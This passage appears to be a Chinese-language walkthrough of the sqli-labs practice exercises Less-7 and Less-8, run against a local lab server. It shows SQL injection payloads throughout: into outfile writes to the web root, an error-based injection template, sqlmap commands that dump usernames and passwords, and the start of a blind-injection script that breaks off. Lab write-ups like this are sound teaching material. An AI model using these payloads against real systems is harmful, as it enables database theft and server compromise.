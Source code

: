 ```
?id=1'))
```

题目提示需要outfile，即存储到本地

需要打开phpstudy下的读写权限，在mysql的my.ini中添加secure_file_priv="/"后方可远程对mysql进行读写

需要知道当前网页的绝对路径，在Less1-6中查询@@datadir得到相关信息

注入语句

```
?id=1')) union select 1,2,3 into outfile  "C:\\phpstudy_pro\\WWW\\sqli\\Less-7\\less7.txt" --+
```

之后手段类似

若需要远程对服务器进行文件管理，还需要学习一句话木马和中国菜刀的使用。此处略过，直接在后台查看。

### 知识补充

#### outfile

```
select 1,2,3 into outfile "文件路径"
```



```sql
select 1 from 
	(select count(*),
     concat( floor(rand(0)*2),(select (select (爆错语句)) 
                               from information_schema.tables limit 0,1))x from information_schema.tables group by x )a
```



## 0x08

### sqlmap做法

```
python2 sqlmap.py 192.168.64.2/sqli/Less-8?id=1 --batch --dbs --dbms=MySQL --dbs # 爆数据库名
python2 sqlmap.py 192.168.64.2/sqli/Less-8?id=1 --batch --dbs --level=3 --dbms=MySQL -D security --tables # 爆表名
python2 sqlmap.py 192.168.64.2/sqli/Less-8?id=1 --batch --dbs --level=3 --dbms=MySQL -D security -T users --columns # 爆列名
python2 sqlmap.py 192.168.64.2/sqli/Less-8?id=1 --batch --dbs --level=3 --dbms=MySQL -D security -T users -C "username,password" --dump # 爆username和password名
```

### 脚本做法

```
import requests

success_url = "http://192.168.64.2/sqli/Less-8/?id=1"
success_response = requests.get(success_url)
success_text = success_response.text;
max_len = 100;
prefix_url = "http://192.168.64.2/sqli/Less-8/?id=1'"
suffix_url = "--+"
base_str = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
# database length
def getDBLength():
	url_template = prefix_url + "and (length(database())={0})" + suffix_url
	for i in range(max_len):
		temp_url = url_template.format(i)
```